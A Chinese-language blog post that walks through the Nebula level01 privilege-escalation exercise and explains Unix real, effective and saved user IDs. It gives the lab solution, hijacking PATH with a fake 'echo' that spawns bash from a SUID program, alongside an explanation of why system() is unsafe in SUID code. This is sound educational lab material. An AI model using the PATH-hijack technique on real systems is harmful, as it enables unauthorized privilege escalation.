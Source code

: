 ```yaml
---
layout: post
title: "关于exploit exercise nebula level01"
date: 2012-10-10 23:26
comments: true
categories: linux
tags: linux security programming
---
```



今天做[exploit exercise](http://exploit-exercises.com/)的nebula [level01](http://exploit-exercises.com/nebula/level01)，长见识了，记录一下。

### 题目

题目提供了/home/flag01/下flag01的源码：

    #include <stdlib.h>
    #include <unistd.h>
    #include <string.h>
    #include <sys/types.h>
    #include <stdio.h>

    int main(int argc, char **argv, char **envp)
    {
        gid_t gid;
        uid_t uid;
        gid = getegid();
        uid = geteuid();

        setresgid(gid, gid, gid);
        setresuid(uid, uid, uid);

        system("/usr/bin/env echo and now what?");
    }

flag01的权限：

-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01

flag01的uid是用户flag01,gid是level01,suid位被使能了

<!-- more -->

**解决方法**网上都有：

    $ export PATH=/tmp:$PATH    # 把/tmp加到环境变量PATH的最前头
    $ cat "/bin/bash" >> /tmp/echo # 在/tmp创建一个echo文件，里面是执行bash
    $ chmod +x /tmp/echo # 把/tmp/echo设为执行文件
    $ /home/flag01/flag01 # 执行/home/flag01下的flag01
    
    # 顺利以用户flag01起bash
    $ getflag # 通关


### 原理

主要原理网上的解法都说得很明白，就是通过env使得执行的echo是我们创建的假echo，成功以用户flag01的权限起bash

我想记录的主要是前面关于uid,gid的操作。

**为什么system之前会有getegid,setresgid这些操作呢？没有会怎样？这还会成功吗？**

答案是不行的！在[stackoverflow](http://stackoverflow.com/questions/8304396/what-is-vulnerable-about-this-c-code)找到解答:

> Note that the setting of real user ID, effective user ID and saved set-user-ID by a call to setresuid() before the call to system() in the vulnerable code posted in the question allows one to exploit the vulnerability even when only effective user ID is set to a privileged user ID and real user ID remains unprivileged (as is for example the case when relying on set-user-ID bit on a file as above). Without the call to setresuid() the shell run by system() would reset the effective user ID back to the real user ID making the exploit ineffective. However, in the case when the vulnerable code is run with real user ID of a privileged user, system() call alone is enough.
> 
> man page of sh:
> 
> If the shell is started with the effective user (group) id not equal to the real user (group) id, and the -p option is not supplied, no startup files are read, shell functions are not inherited from the environment, the SHELLOPTS variable, if it appears in the environment, is ignored, and the effective user id is set to the real user id. If the -p option is supplied at invocation, the startup behavior is the same, but the effective user id is not reset.

### real user ID, effective user ID，saved set-user-ID, set-user-ID bit

首先明确什么是real user ID, effective user ID，saved set-user-ID, set-user-ID bit

- real user ID 就是起进程的用户ID。
- effective user ID是进程的有效用户ID，决定这个进程对文件系统操作的权限。如果它是root，那这个进程的操作就是以root的权限了。
- set-user-id bit是程序的一个特征位，默认不使能，可以通过chmod +s 设置。当set-user-id被使能时，此程序叫SUID程序，程序启动时进程的effective user ID就是这个程序的uid；当set-user-id没被使能，则effective user ID是执行者real user ID。
- saved set-user-ID保存着进程启动时effective user ID的值。

因为进程内可以通过setuid等来设置effective user ID，也就改变了进程对文件系统操作的权限。但这不是可以随便设为任意的id的。

- 如果进程有管理员权限，则setuid可以把effective user ID设为任意id.
- 如果进程没有管理员权限，则setuid只能把effective user ID设为real user ID或者saved set-user-id。

这就知道saved set-user-ID有什么用了。它就是当程序是SUID程序时，effective user ID可以被设为real user ID和程序启动时的effective user ID，saved set-user-ID就是用来保存这个程序启动时effective user ID的值的，使得setuid可以把effective user ID可以从real user ID设回来。

### bash 

然后就是起bash时，如果effective user ID跟real user ID不同，且real user ID不是管理员权限用户，则会把effective user ID设回real user ID。

而我们这样如果没有setresgid,setresuid的话，real user ID是level01, effective user ID是flag01, 起bash时，effective user ID会被设回real user ID，那还只是以level01起bash，而不是flag01起bash了。


### system()的安全问题

在这里也可以看到system()是有安全问题的，因为system()里面是fork完就直接调用execl，使得继承了父进程的effective user ID的子进程执行新的程序。

APUE也说了:

> If it is running with special permissions--eithere set-user-ID or set-group-ID--and wants to spawn another process, a process should use fork() and exec() directly, being certain to change back to normal permissions after the fork(), before calling exec(). The system() function should never be used from a set-user-ID or a set-groupd-ID program.

意思在SUID程序中，不应该用system()，而是自己写fork()和exec()来实现，并在fork和exec中间，自己处理好id权限问题。

### 结语

之前看APUE，用户id这里看得一头雾水，通过这个exercise，总算有点感觉了。
